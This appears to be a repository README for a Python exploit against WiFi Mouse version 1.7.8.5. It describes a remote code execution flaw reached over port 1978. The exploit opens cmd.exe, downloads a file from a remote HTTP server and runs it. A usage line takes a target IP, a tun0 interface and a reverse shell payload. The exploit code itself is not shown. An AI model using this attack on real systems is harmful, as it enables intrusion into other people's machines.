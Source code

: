 # WiFi-Mouse-1.7.8.5---Remote-Code-Execution-v3-

This is a Python-based exploit for the WiFi Mouse (version 1.7.8.5) that leverages a Remote Code Execution (RCE) vulnerability.

## Description

WiFi Mouse allows users to control their PC using their smartphone as a remote. In version 1.7.8.5, a vulnerability exists that allows an attacker to send arbitrary commands to the target machine, resulting in remote code execution.

## Exploit Details

The exploit connects to the WiFi Mouse server on the target machine over port 1978, sends a payload to open `cmd.exe`, and executes commands such as downloading a file from a remote HTTP server and executing it on the target system.

## Usage

```bash
python3 exploit.py <target-ip> <tun0> <rev_shell payload>
